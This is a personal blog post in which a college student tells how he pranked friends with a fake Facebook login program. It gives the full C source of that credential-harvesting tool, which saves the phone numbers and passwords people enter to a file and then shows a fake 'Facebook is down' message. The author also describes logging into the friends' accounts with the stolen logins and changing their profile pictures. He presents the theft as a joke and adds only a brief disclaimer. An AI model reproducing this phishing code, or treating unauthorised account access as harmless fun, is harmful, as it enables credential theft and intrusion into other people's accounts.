+++
title = 'C-razy Facebook Hack: How I Pranked My Friend'
date = 2024-08-18T09:45:17.1717+05:30
draft = false
tags =['hacking','prank']
+++ 


It was my first year of college, and we were all working in the Python lab. My friends, who didn’t really know much about computers, seemed like the perfect targets for a harmless prank. They were excited but didn’t have a clue about the technical stuff I was up to. I saw an opportunity to have a little fun, knowing they’d fall for it because they didn’t know much about programming.


### The Master Plan

I wanted to play a trick on my friends to show them how powerful C programming is. But it was all just a joke! Here’s how I did it:

**Creating the Fake Program**: I wrote a simple C program that looked like a Facebook login tool. But it was just a trick. The program would ask for their Facebook username and password, and then say “Facebook is down”!

**Playing the Prank**: I ran the program in front of my friends, and they typed in their phone numbers and passwords. I acted like I was trying to fix the problem, but I was really trying not to laugh.

**The Big Reveal**: After my friends left, I opened the file where I had saved their login information. I used it to log into their Facebook accounts and change their profile pictures to something really embarrassing and funny. Even I couldn’t help but laugh!”

### The Program

Here’s the mischievous code I used for the prank. **Disclaimer: This is for entertainment purposes only!**

```c
#include <stdio.h>

int main() {
    char phoneNumber[50];
    char password[50];
    FILE *file;

    // Open the file to store credentials
    file = fopen("credentials.txt", "a");
    if (file == NULL) {
        printf("Error opening file!\n");
        return 1;
    }

    // Ask for user details
    printf("Welcome to the Facebook Login Tool!\n");
    printf("Please enter your phone number: ");
    fgets(phoneNumber, 50, stdin);
    printf("Please enter your password: ");
    fgets(password, 50, stdin);

    // Store the credentials in a file
    fprintf(file, "Phone Number: %s", phoneNumber);
    fprintf(file, "Password: %s", password);

    // Close the file
    fclose(file);

    // Display a fake error message
    printf("Unable to reach Facebook at the moment. Please try again later.\n");

    return 0;
}

```

### What Happened Next

The next day, my friends came to college and told me that their Facebook profiles had been changed to show them in silly costumes or funny pictures. They were shocked and little scared.

They told me that their accounts had been hacked. But after some fun and teasing, I finally told them the truth - that I was the one who had done it as a prank. We all had a good laugh together and the fun came to an end.

### The Lesson

Here's the important part: **don't do this at home**. While my prank was just for fun, playing with people's personal information is not okay. It's important to respect people's privacy and use your coding skills in a good way.

### The Main Point

If you want to play a prank, make sure it's harmless and makes everyone smile. Use your coding skills for good things and keep your pranks light-hearted. Remember, there's a line between being funny and being mean online.

Happy coding, and may your pranks be fun and harmless!